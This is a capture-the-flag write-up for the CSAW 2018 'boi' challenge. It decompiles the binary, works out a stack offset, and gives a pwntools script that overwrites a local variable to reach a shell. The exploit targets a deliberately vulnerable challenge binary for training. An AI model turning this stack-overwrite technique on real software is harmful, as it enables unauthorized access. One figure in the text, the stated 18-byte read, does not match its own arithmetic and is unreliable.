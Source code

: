 ![alt text](images/csaw18quals-boi/boi-1.png)
Decompiling with Ghidra

![alt text](images/csaw18quals-boi/boi-2.png)

The program reads input into `local_38` and compares the value stored at `iStack_24` i.e. `0xdeadbeef`

![alt text](images/csaw18quals-boi/boi-3.png)

with the value `0xcaf3baee`

![alt text](images/csaw18quals-boi/boi-4.png)

![alt text](images/csaw18quals-boi/boi-5.png)

Offset between `iStack_24` and `local_38` is of
`0x38-0x28+0x4 = 0x14`.
But read function here is taking in input of 18 bytes, so we can overwrite the value worth of 4 bytes, which is what we want.

Exploit:

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
# This exploit template was generated via:
# $ pwn template boi
from pwn import *

# Set up pwntools for the correct architecture
exe = context.binary = ELF(args.EXE or 'boi')

# Many built-in settings can be controlled on the command-line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR



def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
tbreak main
continue
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
# Arch:     amd64-64-little
# RELRO:    Partial RELRO
# Stack:    Canary found
# NX:       NX enabled
# PIE:      No PIE (0x400000)

io = start()

# shellcode = asm(shellcraft.sh())
# payload = fit({
#     32: 0xdeadbeef,
#     'iaaa': [1, 2, 'Hello', 3]
# }, length=128)
payload = b'0'*0x14 + p32(0xcaf3baee)
io.send(payload)
# flag = io.recv(...)
# log.success(flag)

io.interactive()
```

![alt text](images/csaw18quals-boi/boi-6.png)
We get access to the terminal!
